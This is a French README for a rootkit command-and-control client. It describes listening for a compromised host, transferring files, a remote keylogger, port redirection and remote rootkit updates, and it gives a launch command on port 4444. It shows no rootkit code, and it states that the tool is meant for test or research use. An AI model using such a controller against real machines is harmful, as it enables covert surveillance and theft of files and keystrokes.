 # Documentation : epirootkit_client.py

## Présentation

`epirootkit_client.py` est un client avancé permettant de contrôler à distance un rootkit via une connexion réseau sécurisée. Il agit comme un serveur d'attente : il écoute sur une adresse IP et un port donnés, puis attend qu'un agent/rootkit se connecte pour offrir une interface de commande interactive.

## Fonctionnalités principales
- **Connexion sécurisée** : Utilise AES-256-CBC pour chiffrer les échanges réseau.
- **Authentification** : Vérifie le mot de passe du rootkit lors de la connexion.
- **Upload/Download de fichiers** : Permet d'envoyer ou de récupérer des fichiers depuis la machine compromise.
- **Keylogger** : Démarre, arrête et récupère les frappes clavier à distance.
- **Gestion de redirections réseau** : Ajoute, supprime ou liste des règles de redirection de ports/IP.
- **Mise à jour du rootkit** : Permet d'envoyer un nouveau module pour mettre à jour le rootkit à distance.
- **Interface interactive** : Propose un prompt pour envoyer des commandes personnalisées.

## Utilisation

### Lancement
Dans un terminal, placez-vous dans le dossier contenant le script **sur la machine attaquante (attacker)** puis lancez :

```sh
python3 epirootkit_client.py --host 0.0.0.0 --port 4444
```
- `--host` : adresse IP locale d'écoute (par défaut 0.0.0.0)
- `--port` : port d'écoute (par défaut 4444)

### Commandes disponibles après connexion
- `upload chemin_local nom_distant` : envoie un fichier vers la machine compromise
- `download nom_distant chemin_local` : récupère un fichier depuis la machine compromise
- `keylog start` / `keylog stop` : démarre/arrête le keylogger
- `redirect add src_ip dst_ip src_port dst_port protocol` : ajoute une règle de redirection
- `redirect remove index` : supprime une règle de redirection
- `redirect list` : liste les règles de redirection
- `update chemin_module` : met à jour le rootkit
- `exit` : quitte le client
- Toute autre commande sera envoyée telle quelle au rootkit

## Dépendances
- Python 3
- cryptography

Installez les dépendances avec :
```sh
pip install -r requirements.txt
```

## Sécurité
- La clé de chiffrement doit être identique côté client et rootkit.
- Les échanges sont chiffrés pour éviter l'interception des commandes et des données.

## Remarques
- Ce client est destiné à des usages avancés et à des environnements de test ou de recherche en sécurité.
- Toute utilisation sur un système sans autorisation explicite est illégale.
